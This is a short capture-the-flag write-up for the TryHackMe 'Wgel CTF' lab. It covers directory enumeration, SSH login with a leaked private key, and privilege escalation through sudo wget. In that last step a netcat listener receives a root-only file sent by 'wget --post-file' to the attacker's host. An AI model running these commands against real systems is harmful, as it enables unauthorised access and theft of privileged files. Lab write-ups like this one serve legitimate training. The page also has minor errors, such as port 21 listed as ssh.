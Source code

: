 ```yaml
---
title: Wgel CTF
premalink: /wgel
---
```

# ![front](saharshtapi.github.io/images/wgel/front.png)
[https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
**Found name _Jxxxxe_ in source page of index page**
1. find sub-doamisn and directories usind **dirb**
   - ip/sitemap/.ssh **(Found a private ssh key)**
   
## Gaining Access:
 - Save the key in a text file and change mode to 600
   >chmod 600 key.txt
 - Connect to SSH using the key
   >ssh -i key.txt jxxxxe@ip
### USER Flag:
![user_flag](saharshtapi.github.io/images/wgel/user.png)
 

## Privilege Escalation:
 - sudo -l
    - Only user/bin/wget allowed as suoder
    - Open **netcat** port 80 on host
      >nc -lvpn 80 >flag.txt
    - In target 
      >sudo wget --post-file=/root/root_flag.txt ip_of_host
    
### Root Flag:
![rootflag.png](saharshtapi.github.io/images/wgel/root.png)
